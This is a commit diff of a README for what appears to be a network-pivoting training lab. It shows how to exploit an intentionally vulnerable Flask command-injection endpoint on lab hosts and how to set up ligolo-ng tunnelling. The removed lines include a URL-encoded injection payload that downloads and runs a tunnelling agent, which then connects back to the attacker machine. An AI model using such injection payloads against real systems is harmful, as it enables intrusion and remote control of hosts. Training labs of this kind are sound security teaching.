

Before and after one commit to cyberz-club/pivot-lab, a Markdown page: README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -80,36 +80,31 @@ curl "http://192.168.56.20:5000/cmd?cmd=hostname"
 
 Now exploit it to run a ligolo-ng **agent** on the pivot and connect it back to a ligolo-ng **proxy** on the attacker. The lab intentionally does not preinstall the agent so you must use the Flask command-injection to fetch and run it on `pivot`.
 
-There are two common approaches:
-
-- Option A — download ligolo-ng from a public release on the internet (replace `<..._URL>` below with the correct URL for your architecture):
-
-```bash
-curl "http://192.168.56.20:5000/cmd?cmd=wget%20-O%20%2Ftmp%2Fagent.tgz%20%3CLIGOLO_AGENT_TGZ_URL%3E%20%26%26%20cd%20%2Ftmp%20%26%26%20tar%20-xzf%20agent.tgz%20%26%26%20chmod%20%2Bx%20agent%20%26%26%20%2Ftmp%2Fagent%20-connect%20192.168.56.10%3A11601%20-ignore-cert%20%26"
-```
-
-- Option B — host the ligolo-ng `agent` binary from the attacker machine (e.g. `python3 -m http.server`) and pull it from pivot using the command injection endpoint.
-
-This is the most reliable approach for the lab because it avoids hunting for the correct release URL mid-exploit.
-
 #### 2a) Download ligolo-ng proxy + agent on attacker (GitHub Releases)
 
 ```bash
 vagrant ssh attacker
 mkdir -p ~/ligolo && cd ~/ligolo
+```
 
-# Find the correct downloads for your attacker architecture (this lab uses x86_64/amd64)
+Find the correct downloads for your attacker architecture (this lab uses x86_64/amd64)
+
+```bash
 uname -m
 curl -s https://api.github.com/repos/nicocha30/ligolo-ng/releases/latest | grep browser_download_url
+```
 
-# Recommended: automatically pick the *latest* Linux amd64 URLs from the GitHub API:
-PROXY_URL="$(curl -s https://api.github.com/repos/nicocha30/ligolo-ng/releases/latest | grep browser_download_url | grep 'linux_amd64' | grep 'proxy' | head -n 1 | cut -d '\"' -f 4)"
-AGENT_URL="$(curl -s https://api.github.com/repos/nicocha30/ligolo-ng/releases/latest | grep browser_download_url | grep 'linux_amd64' | grep 'agent' | head -n 1 | cut -d '\"' -f 4)"
-echo "$PROXY_URL"
-echo "$AGENT_URL"
+Recommended: automatically pick the *latest* Linux amd64 URLs from the GitHub API:
+```bash
+# this will give you the url's directly
+curl -s https://api.github.com/repos/nicocha30/ligolo-ng/releases/latest | grep browser_download_url | grep 'linux_amd64' | grep 'proxy' | head -n 1 | cut -d '\"' -f 4
 
-curl -L -o proxy.tgz "$PROXY_URL"
-curl -L -o agent.tgz "$AGENT_URL"
+curl -s https://api.github.com/repos/nicocha30/ligolo-ng/releases/latest | grep browser_download_url | grep 'linux_amd64' | grep 'agent' | head -n 1 | cut -d '\"' -f 4
+```
+then download them usinf curl or wget
+```bash
+curl -L -o proxy.tgz "proxy_you_found"
+curl -L -o agent.tgz "agent_you_found"
 tar -xzf proxy.tgz
 tar -xzf agent.tgz
 chmod +x proxy agent
````
